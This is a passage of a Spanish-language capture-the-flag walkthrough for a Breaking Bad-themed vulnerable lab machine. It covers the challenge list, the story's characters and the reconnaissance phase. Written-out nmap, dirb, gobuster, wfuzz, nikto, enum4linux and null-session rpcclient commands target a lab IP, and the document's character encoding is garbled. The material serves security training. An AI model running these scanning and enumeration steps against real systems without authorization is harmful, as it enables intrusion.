









Los Pollos Hermanos — Breaking Server
Una máquina CTF que te cocinará el cerebro (pero en buen plan)
Contenido
🚩 Las Banderas (15 retos) 12
🧩 Pistas y secretos del servidor 13
🕵️‍♂️ GuÃa de Orden de Resolución CTF: Los Pollos Hermanos Braking Server 14
ğŸ Parte 1: Las Moscas (CriptografÃa - SteganografÃa - Forense - WEB - OSINT - Red - Misc) 14
⚙️ Parte 2: Las Banderas (Sistemas, Red, Forense) 15
🧠Recomendaciones para los Jugadores 15
📠Observaciones del Autor 15
🧬 Introducción al Walkthrough: Máquina CTF “Los Pollos Hermanos Breaking Server†16
🗂️ CategorÃas de retos incluidas 16
⚙️ Modalidades de interacción 16
🧠Fase 0 – Reconocimiento y Recopilación Inicial 20
🔠Paso 1 – Escaneo detallado con Nmap sobre los puertos encontrados 23
📂 Paso 2 – Enumeración por servicio 25
ğŸ Mosca 1 – Verificación Web Inicial 42
🧰 Herramientas necesarias 42
🾠Paso a paso de resolución 42
ğŸ Mosca 2 – EsteganografÃa en Metadatos 48
ğŸ› ï¸ Herramientas necesarias 48
📠Fase 1 – Descarga y reconocimiento del archivo 48
🔠Fase 2 – Descifrando Brainfuck 51
📊 Fase 3 – Análisis de metadatos 52
✅ Fase Final – Verificación 53
ğŸ› ï¸ Herramientas necesarias 54
📠Fase 1 – Localización de la pista 54
🔠Fase 2 – Leer código Qr 54
📤 Fase 3 – Analizar código Qr 55
✅ Fase Final – Verificación Web 55
ğŸ Mosca 4 – Simulación de Inyección SQL en Formulario Web 57
🧰 Herramientas necesarias 57
🔠Comportamiento del formulario 61
🔠Análisis de vulnerabilidad 63
🧪 Ejecución de la inyección 63
ğŸ Mosca 5 – Crackeo de Contraseña de Archivo Protegido (.rar) 66
🧰 Herramientas necesarias 66
🧪 Procedimiento paso a paso 67
ğŸ Mosca 6 – Descompresión + Braille oculto en imagen 70
📠Contenido de la carpeta 70
ğŸ Mosca 7 – MD5 de Imagen JPEG 74
🧰 Herramientas necesarias 74
🧪 Procedimiento técnico 77
ğŸ Mosca 8 – Investigación de Persona Desaparecida 79
🧰 Herramientas necesarias 79
🧪 Procedimiento técnico 79
ğŸ Mosca 9 – Reconocimiento de Tonos DTMF en Audio 88
🧰 Herramientas necesarias 88
🧪 Procedimiento técnico 90
ğŸ Mosca 10 – Reconstrucción de JPEG desde tráfico HTTP 93
🧰 Herramientas necesarias 93
🧪 Procedimiento técnico 97
ğŸ Bandera 1 – Escalada de Privilegios mediante configuración vulnerable en /etc/sudoers 101
⚙️ Preparación del entorno realizada 101
🧪 Pasos para capturar la bandera 103
ğŸ Bandera 2 – Acceso Anónimo a Servidor FTP con Archivos Ocultos 106
⚙️ Entorno técnico preparado 106
🧪 Pasos para capturar la bandera 107
ğŸ Bandera 3 – Binario SUID Vulnerable a Comandos Arbitrarios 110
⚙️ Entorno técnico preparado 110
🧪 Pasos para capturar la bandera 114
ğŸ Bandera 4 – Forense de Archivos Sin Extensión 118
📦 Contenido de la carpeta Lavanderia 118
🧪 Pasos para capturar la bandera 120
🧰 Herramientas clave recomendadas 124
ğŸ Bandera 5 – DNS Malicioso en Tráfico .pcap 125
🔧 Entorno técnico simulado 125
🧪 Pasos para capturar la bandera 125
ğŸ Bandera 6 – Explotación de Samba (CVE-2017-7494) 129
⚙️ Entorno técnico preparado 129
🧪 Pasos para capturar la bandera 134
ğŸ Bandera 7 – Fuerza Bruta sobre Credenciales SSH Débiles 137
⚙️ Entorno técnico preparado 137
🧪 Pasos para capturar la bandera 139
ğŸ Bandera 8 – Certificado TLS con Bandera Oculta en CommonName 144
⚙️ Entorno técnico preparado 144
🧪 Pasos para capturar la bandera 144
ğŸ Bandera 9 – Servicio Netcat Escuchando en Puerto Oculto 148
⚙️ Entorno técnico configurado 148
🧪 Pasos para capturar la bandera 151
ğŸ Bandera 10 – Vulnerabilidad LFI en Aplicación PHP 153
⚙️ Entorno técnico configurado 153
🧪 Pasos para capturar la bandera 154
ğŸ Bandera 11 – Forense de PDF con Códigos de Ubicación 157
🧪 Pasos para capturar la bandera 160
ğŸ Bandera 12 – Linux Fundamentals / Warm-up: Breaking the TXT 164
🧪 Pasos para capturar la bandera 165
ğŸ Bandera 13 – Análisis Forense de Registro auth.log 168
ğŸ› ï¸ Entorno técnico configurado 168
🧪 Pasos para capturar la bandera 169
🔧 Recomendaciones para jugadores avanzados 172
ğŸ Bandera 14 – Análisis Forense de Volcado de Memoria RAM 174
⚙️ Entorno técnico preparado 175
🧪 Pasos para capturar la bandera 176
ğŸ Bandera 15 – Buffer Overflow para Ejecución de Función Secreta 179
🧠¿Qué es un Buffer Overflow? 179
⚙️ Entorno técnico preparado 182
🧪 Pasos para capturar la bandera 182
🧰 Herramientas Utilizadas 196
🧰 Herramientas Online Utilizadas 199
Parte 1: Moscas (criptografÃa, stego, forense, web, OSINT, red) 201
Parte 2: Banderas (sistemas, red, forense y privilegios) 202
Buenas prácticas y mentalidad técnica 203
Qué te llevas aplicado al “mundo real†204
Siguientes pasos para consolidar 204
🔠Presentación:
🬠Introducción:
Sumérgete en una máquina CTF ambientada en el universo de Breaking Bad, donde el análisis forense, la criptografÃa y la explotación web se fusionan en una experiencia electrizante. En Los Pollos Hermanos Breaking Server, no basta con pensar como un hacker. Tienes que razonar como Heisenberg: estratégico, preciso y un poco impredecible.
🧠Lo que aprenderás:
Este reto está construido para enseñarte técnicas fundamentales y avanzadas del pentesting, incluyendo:
CriptografÃa aplicada: análisis de hashes, QR, mensajes ocultos.
EsteganografÃa moderna: espectrogramas, imágenes térmicas, audio codificado.
Análisis Forense digital: estructura temporal (ctime), memoria, logs alterados.
Explotación Web: SQL Injection, Local File Inclusion (LFI), configuraciones inseguras.
Redes: tráfico .pcap con protocolos HTTP, DNS, TLS, y servicios mal configurados como FTP anónimo.
Escalada de privilegios y explotación de binarios vulnerables.
OSINT realista: búsqueda de información oculta y pistas digitales.
Reconocimiento de sistemas: puertos, servicios, y estructuras ocultas.
📂 CategorÃas de los retos:
🔠CriptografÃa
🧬 EsteganografÃa
🔠Forense
📡 Análisis de red
🕸️ Web Exploitation
🧨 Pwn & Privilege Escalation
🧠OSINT
🕵️ Reconocimiento
Cada categorÃa incluye varias técnicas y herramientas ampliamente utilizadas en auditorÃas reales: Wireshark, ExifTool, hashcat, steghide, nmap, netcat, entre otros.
💡 ¿Porqué jugar esta máquina?
Porque no solo resolverás retos técnicos, sino que descifrarás una narrativa envolvente ambientada en el universo de Breaking Bad. Cada fase oculta pistas, secretos y vulnerabilidades que solo un verdadero pentester sabrá extraer. Es ideal para:
Estudiantes que quieren aprender con práctica realista.
Profesionales que buscan afilar sus técnicas.
Equipos que desean entrenar en simulaciones estilo Red Team.
Cualquiera que quiera cocinar su próxima bandera como un maestro del laboratorio.
🳠Frase del chef:
En el Server de “Los Pollos Hermanos†no solo sirven pollo...
Sirven una experiencia digital inolvidable que te hará explotar — y no
por la cocina, sino por el conocimiento.
🧪 Instrucciones
¡Bienvenido/a al desafÃo definitivo de Los Pollos Hermanos: Breaking Server! 🌐🐔💣
Prepárate para sumergirte en un mundo de criptas, secretos y exploits inspirado en el universo de Breaking Bad. Esta máquina CTF ha sido diseñada con fines educativos, pero también con un objetivo muy claro: poner a prueba tu ingenio, tu habilidad y tu paciencia.
🮠¿De qué va el juego?
Te enfrentas a una máquina CTF compuesta por 25 retos cuidadosamente distribuidos en dos categorÃas:
ğŸ Las Moscas (10 retos)
Inspiradas en el mÃtico capÃtulo “La Mosca”.
Están ocultas en el entorno web de la máquina.
Puedes capturarlas sin salir del navegador, explorando el código fuente, las rutas ocultas y los elementos sospechosos.
Al ser más accesibles, probablemente sean más fáciles de resolver.
¡Atrápalas todas y comprueba tu caza en la página de verificación de moscas!
🚩 Las Banderas (15 retos)
Esconden secretos más profundos, ocultos dentro del servidor.
Requieren técnicas más elaboradas como:
Escalada de privilegios
Inyección
Enumeración
Lectura de archivos protegidos
¡Aquà se juega en serio! Las banderas están donde menos te lo esperas… pero si sabes mirar, ahà estarán.
Cuando creas haber atrapado una, verifÃcala en las páginas de comprobación de banderas y moscas. Note voy a decir donde están esas páginas porque eso es tarea tuya.
âš ï¸ Reglas del juego
⌠No hagas trampas. Muchas de las Flags se pueden obtener de diferentes maneras; el reto no es solo conseguir la Flag sino explotar la vulnerabilidad correspondiente. Consultar soluciones mata la esencia del juego.
🯠Este reto está hecho para aprender y disfrutar del proceso, no para correr al final.
🧠Si algo parece fácil… probablemente lo sea. Pero si parece imposible, tal vez no lo sea tanto.
🧩 Pistas y secretos del servidor
La fase de reconocimiento es la más importante. Hacerte con la mayor cantidad de información de facilitará encontrar los retos.
Busca por todos los directorios, por TODOS.
La DEA está detrás de los asuntos de Fring y tratan de cazarlo con trampas; procura no caer en ellas.
🯠Objetivo final
✅ Captura todas las Moscas.
✅ Encuentra todas las Banderas.
🧠Y sobre todo: aprende, experimenta y juega
limpiamente.
"El respeto se gana, el poder se toma, y los secretos... se
descifran."
— Gustavo Fring
¿Estás listo/a para entrar al laboratorio? 🧪
¡Que comience el juego!
🕵️‍♂️ GuÃa de Orden de Resolución CTF: Los Pollos Hermanos Braking Server
Versión de referencia para jugadores
Autor: José Pérez (www.unfantasmaenelsistema.com)
Modo de juego: Máquina tipo CTF con 25 retos
Requisitos previos: Conexión desde Kali Linux u otro
entorno ofensivo
🔠Descripción General
Este documento organiza los 25 retos (10 moscas y 15 banderas) en un orden recomendado para el jugador. El objetivo es guiarle por una progresión lógica de dificultad, narrativa y aprendizaje técnico. El CTF está inspirado en el universo de Breaking Bad, con personajes, contraseñas y pruebas interconectadas.
ğŸ Parte 1: Las Moscas (CriptografÃa - SteganografÃa - Forense - WEB - OSINT - Red - Misc)
| 🧩 Nº | Nombre de Mosca | Tipo | Explotación/Vulnerabilidad |
|---|---|---|---|
| 1 | Mosca 1 | Criptog. + SteganografÃa | Hex + Espectograma |
| 2 | Mosca 2 | CriptografÃa + Forense | Brainfuck + Exiftool |
| 3 | Mosca 3 | CriptografÃa + Misc | QR + Editor Hex |
| 4 | Mosca 4 | CriptografÃa + WEB | Pigpen + SQL Injection |
| 5 | Mosca 5 | Forense | Crackeo RAR |
| 6 | Mosca 6 | CriptografÃa + Misc | Imagen térmica + Braille |
| 7 | Mosca 7 | CriptografÃa + Misc | Octal + Hash |
| 8 | Mosca 8 | CriptografÃa + OSINT | Base64 + Investigación |
| 9 | Mosca 9 | Criptog. + SteganografÃa | ROT9 + DTMF Audio |
| 10 | Mosca 10 | CriptografÃa + Red | Atbash + pcap HTTP |
⚙️ Parte 2: Las Banderas (Sistemas, Red, Forense)
| Nº | Bandera | CategorÃa | Explotación/Vulnerabilidad |
|---|---|---|---|
| 11 | Bandera 1 | Privilegios | sudoers |
| 12 | Bandera 2 | Red | FTP anónimo |
| 13 | Bandera 3 | Privilegios | SUID |
| 14 | Bandera 4 | Forense | archivos sin ext. |
| 15 | Bandera 5 | Red / Forense | Análisis en Wireshark |
| 16 | Bandera 6 | Red / Exploit | Samba CVE-2017 |
| 17 | Bandera 7 | Red / Brute-force | SSH débil |
| 18 | Bandera 8 | Red / Forense | Certificado oculto |
| 19 | Bandera 9 | Red / Recon | Netcat |
| 20 | Bandera 10 | Web Exploitation | LFI PHP |
| 21 | Bandera 11 | CriptografÃa / Puzzle | Guion PDF |
| 22 | Bandera 12 | Warm-up | Permisos |
| 23 | Bandera 13 | Forense / Logs | logs ocultos |
| 24 | Bandera 14 | Forense / Memoria | Volcado memoria |
| 25 | Bandera 15 | Pwn / Exploit binario | Buffer Overflow |
🧠Recomendaciones para los Jugadores
Utiliza Kali Linux: Las herramientas necesarias están preinstaladas.
Comienza desde la Web: Inspecciona fuente, analiza imágenes, descifra.
Escanea puertos regularmente: Muchos retos están ocultos.
No subestimes los logs ni archivos sin extensión.
Trabaja con binarios en entornos 32-bit si es posible.
Lee la narrativa: Muchas pistas están conectadas con los personajes.
📠Observaciones del Autor
Los retos permiten resolución libre, pero este orden favorece el flujo y aprendizaje.
Hay desafÃos diseñados con un toque cinematográfico y técnico que simulan la dualidad Walter/Gus.
🧬 Introducción al Walkthrough: Máquina CTF “Los Pollos Hermanos Breaking Server”
La máquina está diseñada como una experiencia CTF integral que simula diferentes escenarios del universo Breaking Bad—cargada de desafÃos técnicos, criptográficos, forenses y de explotación activa. Cada reto está cuidadosamente ambientado y enlazado con elementos narrativos que potencian el realismo y el aprendizaje técnico.
🗂️ CategorÃas de retos incluidas
| CategorÃa | Subtipos y técnicas usadas | Retos asociados |
|---|---|---|
| 🔠CriptografÃa | Hashing, frase oculta en documento, steganografÃa | Mosca 1–10, Bandera 7, 8, 11 |
| 🧬 EsteganografÃa | Espectograma, audio DTMF, imagen térmica, PDF oculto | Mosca 1, 6, 9, Bandera 4, 14 |
| 🔠Forense | Logs falsificados, ctime manipulado, análisis de RAM | Mosca 2, 5, Bandera 4, 12, 13, 14 |
| 📦 Red | FTP anónimo, análisis de .pcap (DNS, TLS, HTTP) | Bandera 2, 5, 8, 10 |
| 🛡️ Pwn | Exploits en Samba, SSH, Buffer Overflow | Bandera 3, 6, 7, 15 |
| 🕵️ Web Exploitation | Inyección SQL, LFI, formularios inseguros | Mosca 4, Bandera 10 |
| 🧠Reconocimiento | Escaneo de puertos, enumeración | Bandera 9 |
| 📜 Misc / OSINT | QR, búsqueda de desaparecida, análisis de exif | Mosca 3, 8 |
⚙️ Modalidades de interacción
Estáticas: DesafÃos de análisis y decodificación.
Dinámicas: Retos con interacción en tiempo real (servicios corriendo).
Narrativas: Retos escondidos en artefactos tipo serie (PDFs, diálogos, nombres de personajes).
💥 Objetivo formativo
Este CTF está orientado tanto a jugadores novatos como intermedios, incluyendo retos:
Reconocibles por firmas clásicas (LFI, SUID, sudoers).
Adaptables a técnicas avanzadas (CVE, binarios, espectro de audio).
Con lecciones de buenas prácticas de seguridad, como el uso de permisos, validación de inputs, y análisis de logs.
🬠Cada reto representa una pieza del rompecabezas narrativo con guiños al universo de Breaking Bad. Desde claves ocultas en el espectro de audio hasta banderas que sólo aparecen si “el tiempo se corrige”, esta máquina exige observación, curiosidad y análisis técnico.
🔠Personajes
Personajes simulados en esta máquina:
Mike Ehrmantraut
Rol: Jefe de seguridad, investigador y sicario.
Función: Protege los intereses de Gus, investiga amenazas, realiza trabajos sucios y coordina la logÃstica y la vigilancia.
Victor
Rol: Asistente y ejecutor.
Función: Hombre de confianza de Gus. Ayuda a supervisar las operaciones, vigila a Walter y Jesse, y realiza tareas de campo.
Tyrus Kitt
Rol: Guardaespaldas y ejecutor.
Función: Reemplaza a Victor como principal asistente de campo tras su muerte. Fiel y reservado.
Lydia Rodarte-Quayle
Rol: Proveedora de quÃmicos.
Función: Contacto corporativo que ayuda a suministrar metilamina para la producción de metanfetamina. Aunque aparece más en Better Call Saul y temporadas finales.
Héctor Salamanca
Rol: Miembro del cártel de Juárez.
Función: Antiguo rival de Gus, pero tuvo conexiones con él y su red en el pasado. Importante por su historia compartida.
Duane Chow
Profesión: Dueño de una empresa de suministros quÃmicos industriales: Chow's Industrial Supply.
Relación con Gus Fring: Chow era uno de los distribuidores y colaboradores delictivos de Gus, ayudando a suministrar materiales necesarios para la producción de metanfetamina (como precursores quÃmicos).
Saul Goodman
Rol: Abogado criminalista "del crimen" y asesor legal de Walter White y Jesse Pinkman.
Función: Ayuda a Walter y Jesse a sortear problemas legales y a ocultar sus actividades delictivas. Introduce a Walter con personajes más peligrosos como Mike Ehrmantraut (su "solucionador") y Gus Fring (su red de distribución de drogas). Diseña estrategias para legalizar las ganancias ilÃcitas de Walter, como la compra del lavado de autos.
Gustavo Fring
Rol: Empresario aparentemente respetable que, en secreto, es un importante narcotraficante.
Función: Controla una red de distribución de drogas en el suroeste de EE. UU. Recluta a Walter White como cocinero por la pureza de su metanfetamina. Representa una versión calculadora, frÃa y profesional del crimen. Su existencia fuerza a Walter a volverse más despiadado para sobrevivir.
Jesse_Pinkman
Rol: socio y aprendiz de Walter White en la producción de metanfetamina. Representa el conflicto moral, la lealtad emocional y la parte humana del negocio criminal.
Función: Es el primer enlace de Walter con el mundo del narcotráfico. Walter lo busca inicialmente porque Jesse ya tiene experiencia como "cocinero" y distribuidor. Mientras Walter se deshumaniza, Jesse se culpabiliza, sufre y se cuestiona las consecuencias del negocio.
Gale Boetticher
Rol: QuÃmico brillante y meticuloso.
Función: ser la mano derecha de Gus Fring en la producción de metanfetamina. Gus lo contrató para diseñar y operar el superlaboratorio subterráneo, con el objetivo de perfeccionar el proceso de cocinado y, finalmente, reemplazar a Walter White. Gale representaba la alternativa "segura" y profesional: un cientÃfico que podÃa producir metanfetamina de la más alta pureza sin el ego ni el caos que acompañaban a Walter White.
Walter White
Walter White es el personaje principal de la serie "Breaking Bad". Su rol y función en la historia evolucionan drásticamente a lo largo de las temporadas. Al principio, es un profesor de quÃmica de instituto, con una vida anodina y un trabajo que apenas le da para mantener a su familia. Su rol inicial es el de un hombre de familia común y corriente, que se ve enfrentado a una situación lÃmite: le diagnostican un cáncer de pulmón inoperable.
A partir de este diagnóstico, su función en la serie cambia por completo. Deja de ser un simple profesor para convertirse en un criminal. Con el tiempo, su rol se transforma aún más. Pasa de ser un hombre asustado y forzado por las circunstancias a ser un narcotraficante ambicioso y despiadado, conocido como "Heisenberg".
🧠Fase 0 – Reconocimiento y Recopilación Inicial
🯠Objetivo:
Identificar y mapear servicios disponibles, arquitectura de la máquina, archivos visibles, tecnologÃas web, posibles pistas y vulnerabilidades.
El comando inicial más habitual serÃa un escaneo de descubrimiento de hosts en tu rango de red:
nmap -sn 192.168.1.0/24
🔠Explicación rápida:
-sn → Solo hace "ping scan" (host discovery), sin escanear puertos.
192.168.1.0/24 → Cambia este rango por el que corresponda a tu red virtual.
Para saberlo, en Kali ejecuta:
ip a
y revisa la IP de tu interfaz de red (por ejemplo, 192.168.56.x si usas Host-Only, o 10.0.2.x si usas NAT).
💡 Tip: En VirtualBox, si usas Adaptador puente, es
probable que tu red sea la misma que la de tu router doméstico, asà que
el rango podrÃa ser 192.168.1.0/24.
Si usas Host-Only, el rango habitual es
192.168.56.0/24.
Ahora que ya conoces la IP de la máquina vÃctima, puedes hacer un escaneo de puertos y servicios con nmap.
Para un análisis inicial rápido:
nmap -sS -sV -O 192.168.1.44
🔠Qué hace cada parámetro:
-sS → Escaneo SYN (rápido y sigiloso).
-sV → Detecta versiones de servicios.
-O → Intenta identificar el sistema operativo.
Aquà ya podemos ver algo que pone bandera ‘Estoy_en_el_negocio_del_imperio’
Si quieres no dejarte ningún puerto, usa un escaneo más completo:
nmap -p- -sS 192.168.1.44
(Escanea todos los puertos TCP, 1 al 65535, pero sin detección de versiones todavÃa)
Luego, con los puertos detectados, profundizas:
nmap -p PUERTOS_ENCONTRADOS -sV -sC 192.168.1.44
Esos puertos ya nos dicen bastante sobre el terreno que vamos a pisar
😏.
Podemos organizar la profundización por puerto,
priorizando los que suelen dar más juego en un CTF.
🔠Paso 1 – Escaneo detallado con Nmap sobre los puertos encontrados
nmap -p 21,22,80,139,445,31337 -sV -sC 192.168.1.44
Esto nos dará:
Versiones exactas de servicios.
Scripts NSE básicos (banner grabbing, enumeración inicial SMB, etc.).
📂 Paso 2 – Enumeración por servicio
Puerto 21 (FTP)
Ver si permite acceso anónimo:
ftp 192.168.1.44
Usuario: anonymous, sin contraseña o con email.
Si hay acceso, listar y descargar archivos.
Si está cerrado pero detectas versión vulnerable (por ej. vsftpd 2.3.4), buscar exploits en:
searchsploit vsftpd
Puerto 22 (SSH)
Suele ser puerta final para ganar acceso, no tanto inicial.
Apuntar versión de SSH para ver si hay vulnerabilidades conocidas.
No hacer fuerza bruta todavÃa (ruido innecesario), salvo que tengas un usuario válido.
Puerto 80 (HTTP)
Abrir en navegador: http://192.168.1.44
Enumerar con:
dirb http://192.168.1.44 /usr/share/wordlists/dirb/common.txt
Si quieres más profundidad:
dirb http://192.168.1.44 /usr/share/wordlists/dirb/big.txt
WFuzz (más flexible)
wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc 404 http://192.168.1.44/FUZZ
--hc 404 → Oculta las respuestas con código 404.
nikto -h 192.168.1.44
Revisar código fuente, robots.txt, etc.
Puertos 139 y 445 (SMB)
Enumerar recursos compartidos:
smbclient -L //192.168.1.44
Usuario vacÃo o guest sin contraseña.
Usar enum4linux:
enum4linux -a 192.168.1.44
Si hay shares accesibles, entrar y listar contenido.
Puerto 31337
Número inusual → posible servicio personalizado o backdoor.
Conectarte y ver respuesta:
nc 192.168.1.44 31337
Si habla algún protocolo (telnet, HTTP, chat, etc.), interactuar y analizar.
💡 Lo ideal:
Primero agotar información con FTP, HTTP y SMB, porque
suelen dar credenciales o ficheros que después permiten entrar por SSH o
explotar el servicio raro en el 31337.
📌 -sC → Ejecuta scripts NSE básicos de enumeración, muy útil en CTF.
Si tienes los puertos 139 y 445 abiertos, enum4linux es una gran opción para enumerar usuarios y shares SMB.
Comando recomendado para enumeración completa:
enum4linux -a 192.168.1.44
-a → Lanza todas las pruebas (usuarios, shares, polÃticas, SID, etc.).
Te listará posibles nombres de usuario y recursos compartidos.
Si el servidor SMB permite null sessions, obtendrás bastante información.


Si quieres solo enumerar usuarios:
enum4linux -U 192.168.1.44
Más rápido y centrado en usuarios.
También puedes usar rpcclient para confirmar:
rpcclient -U "" 192.168.1.44
(Deja la contraseña vacÃa cuando te lo pida)
Luego, en la consola interactiva:
enumdomusers
📌 Consejo CTF: Guarda bien los nombres de usuario que aparezcan, porque luego pueden servir para fuerza bruta en SMB, SSH o el servicio raro en el puerto 31337.
Para encontrar todos los directorios y páginas web, incluyendo con extensiones variadas como .php, .html, .js, etc., puedes usar herramientas de fuerza bruta de directorios con wordlists amplias y que prueben muchas extensiones. Aquà tienes las opciones más usadas y efectivas:
1️⃣ Dirb (simple y rápido)
dirb http://192.168.1.44 /usr/share/wordlists/dirb/common.txt -X .php,.html,.js,.txt,.bak
-X permite especificar extensiones a probar.
Prueba con extensiones comunes además de las tÃpicas.
2️⃣ Gobuster (más flexible)
gobuster dir -u http://192.168.1.44 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt,bak
-x para extensiones.
Usa un wordlist más grande para mayor cobertura.
3️⃣ WFuzz (muy configurable)
wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc 404 -u http://192.168.1.44/FUZZ.php
Cambia la extensión en el URL para probar varias.
Para probar muchas extensiones puedes hacer varios comandos o scripts.
4️⃣ Burp Suite (interactivo)
Si prefieres interfaz gráfica y más control, Burp Suite tiene una función de Intruder para fuzzing de rutas con múltiples extensiones y payloads.
Consejos:
Combina varias extensiones en tus pruebas para no perder nada.
Usa wordlists grandes y especÃficas para directorios y archivos web.
Si quieres buscar también ficheros sin extensión o con nombres raros, usa wordlists más amplias o crea la tuya propia.
No te olvides de revisar también la página principal (/) y sus scripts para posibles pistas.
📠Análisis de las URLs
Una vez entramos al index podemos ver que el resto de directorios es accesible en formato de página web del restaurante Los Pollos Hermanos.
URLs:
http://192.168.1.44/server-status
El status del server no devuelve nada raro o interesante:
Esta url contiene lo que parecen ser los archivos multimedia de la web y algún archivo más:
Listado de archivos:
![[SND]](cookbook/media/image25.gif) |
Bienvenidos.mp3 | 2025-07-17 16:13 | 101K | Â |
|---|---|---|---|---|
![[ ]](cookbook/media/image26.gif) |
PAN.rar | 2025-07-21 11:12 | 200 | Â |
![[IMG]](cookbook/media/image27.gif) |
PIN.png | 2025-07-20 18:46 | 2.9M | Â |
|
algo.rar | 2025-07-21 11:40 | 270 | Â |
|
cupon1.png | 2025-07-16 16:50 | 363K | Â |
|
cupon2.png | 2025-07-16 16:49 | 441K | Â |
|
cupon3.png | 2025-07-16 16:52 | 357K | Â |
|
desaparecida.jpg | 2025-07-20 18:01 | 19K | Â |
|
horario.jpg | 2025-07-18 10:36 | 216K | Â |
|
http_jpeg.pcapng | 2025-07-19 10:00 | 504K | Â |
|
llamada.wav | 2025-07-20 08:49 | 405K | Â |
|
logo.png | 2025-07-15 11:27 | 77K | Â |
|
menu1.jpg | 2025-07-16 09:38 | 167K | Â |
|
menu2.jpg | 2025-07-16 09:30 | 259K | Â |
|
menu3.jpg | 2025-07-16 09:28 | 493K | Â |
|
menu4.jpg | 2025-07-15 11:26 | 13K | Â |
|
menu5.jpg | 2025-07-16 12:19 | 206K | Â |
|
menu6.jpg | 2025-07-16 12:20 | 101K | Â |
|
menu7.jpg | 2025-07-15 11:25 | 15K | Â |
|
menu8.jpg | 2025-07-16 15:38 | 108K | Â |
|
menuQR.png | 2025-07-18 15:31 | 53K | Â |
|
